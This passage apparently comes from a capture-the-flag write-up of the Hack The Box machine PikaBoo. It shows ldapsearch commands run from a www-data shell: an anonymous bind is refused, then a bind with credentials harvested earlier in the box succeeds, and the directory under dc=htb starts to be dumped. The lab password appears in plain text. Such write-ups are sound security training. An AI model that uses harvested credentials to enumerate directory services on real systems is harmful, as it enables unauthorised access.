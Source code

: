 

Just like I have on many occasions remotely enumerated LDAP, I can try
`ldapsearch` from PikaBoo:



    www-data@pikaboo:/$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts
    ldap_bind: Inappropriate authentication (48)
            additional info: anonymous bind disallowed



It requires auth. I've got the creds from the PokeAPI, and they work:



    www-data@pikaboo:/var/www$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'
    # extended LDIF
    #
    # LDAPv3
    # base <> (default) with scope baseObject
    # filter: (objectclass=*)
    # requesting: namingcontexts 
    #

    #
    dn:
    namingContexts: dc=htb

    # search result
    search: 2
    result: 0 Success

    # numResponses: 2
    # numEntries: 1



The DC is HTB. I'll use that and dump everything under it:



    www-data@pikaboo:/var/www$ ldapsearch -h 127.0.0.1 -x -b 'dc=htb' -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'            
    # extended LDIF
    #
    # LDAPv3
    # base <dc=htb> with scope subtree
    # filter: (objectclass=*)
    # requesting: ALL